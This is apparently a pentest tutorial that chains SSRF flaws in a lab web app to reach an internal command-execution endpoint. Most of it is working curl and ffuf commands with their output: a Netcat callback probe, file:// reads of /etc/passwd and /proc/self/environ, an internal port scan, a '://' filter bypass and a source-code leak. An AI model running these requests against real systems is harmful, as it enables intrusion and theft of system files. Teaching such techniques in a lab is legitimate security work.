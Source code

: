 In this example, we will be exploiting an internet-facing web application and work to get remote code execution on an internal host by chaining multiple SSRF vulnerabilities. The attack flow shall be as follows:
```
PENTESTER -> SSRF on Internet-facing App -> SSRF on Internal Web Server -> RCE on Local Web App.
```
First we issue a cURL request to the target server using the parameters `-i` to show the protocol response headers, `-s` to use the silent mode, and `-L` to follow any redirects.
```bash
curl -i -s -L http://<TARGET IP>

HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```
## Testing for SSRF
Then we confirm if the `q` parameter is vulnerable to SSRF by starting up a Netcat listener, as follows:
```bash
nc -nvlp 4444
```
```bash
curl -i -s "http://<TARGET IP>/load?q=http://<OUR IP>:4444"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 12:07:10 GMT
```
## Confirming SSRF
Checking into our Netcat listener, we can see that the target application made a request, confirming a SSRF vulnerability.
```bash
Connection received on <TARGET IP> 49852
GET / HTTP/1.1
Accept-Encoding: identity
Host: <OUR IP>:4444
User-Agent: Python-urllib/3.8
Connection: close
```
Reading the [Python-urllib](https://docs.python.org/3.8/library/urllib.html) documentation, we can see it supports `file`, `http` and `ftp` schemas. So, apart from issuing HTTP requests to other services on behalf of the target application, we can also read local files via the `file` schema and remote files using `ftp`.
## Retrieve local file using FTP schema
We can test this functionality by requesting for the `/etc/passwd` file.
```bash
curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[TRIM]...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
...[TRIM]...
```
## Port Scanning for Internal Apps using Ffuf
Next we will perform a port scan to look for any internal applications that we can exploit.

1. But first, we should generate a port wordlist using the following:
```bash
for port in {1..65535}; do echo $port >> ports.txt; done
```
2. We will then use Ffuf to fuzz for any open ports.
```bash
ffuf -w ports.txt -u "http://<TARGET IP>/load?q=http://127.0.0.1:FUZZ" -fs 30

...[TRIM]...
80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
:: Progress: [65535/65535] :: Job [1/1] :: 577 req/sec :: Duration: [0:02:00] :: Errors: 0 ::
```
3. Confirm that port 5000 is working.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:47:16 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>
```
## Attacking Internal Web App
Now that we know how to reach internal applications, we can now try attacking `internal.app.local` to try and achieve RCE on an internal host.
> Note: In the next steps, we will be issuing requests on behalf of `ubuntu-web` to `internal.app.local`, resulting in two SSRF vulnerabilities being chained.

1. Issue a simple cURL request to the internal application, we can use the `q` parameter on this one since we discovered earlier that it uses the same process to load resources.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```
2. It seems the web application is removing `://` from our request. Let's try to overcome this situation by modifying the URL, instead of `http://` our request will now contain `http::////`.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 385
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:30:07 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/</h1><a>total 24K
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 .
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 ..
-rw-r--r-- 1 root root   84 Oct 19 16:32 index.html
-rw-r--r-- 1 root root 1.2K Oct 19 16:32 internal.py
-rw-r--r-- 1 root root  691 Oct 19 20:29 internal_local.py
-rwxr-xr-x 1 root root   69 Oct 19 16:32 start.sh
 </a></body></html>
```
> Note: For the purpose of this tutorial, we will assume ports `80` and `5000` is also open for the internal app, but for real world pentest, it is recommended to do another port scan to confirm which ports are open.
### Reading Internal App's Source Code
Let us now uncover the source code of the web applications listening on `internal.app.local` to see how we can achieve remote code execution. But first we must first identify our current working directory by issuing a request to disclose the `/proc/self/environ` file.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 584
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 16:52:20 GMT

<html><body><h1>Resource: file:///proc/self/environ</h1><a>HOSTNAME=18f236843662PYTHON_VERSION=3.8.12PWD=/appPORT=80...[TRIM]...
```
Now that we know we are in the `/app` directory, we can now issue the full URL to read the source code
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 771
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:40:28 GMT

<html><body><h1>Resource: file:///app/internal_local.py</h1><a>import os
from flask import *
import urllib
import subprocess

...[TRIM]...

@app.route("/runme")
def runmewithargs():
    command = request.args.get("x")
    if command == "":
        return "Use /runme?x=<CMD>"
    return run_command(command)

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
</a></body></html>

```
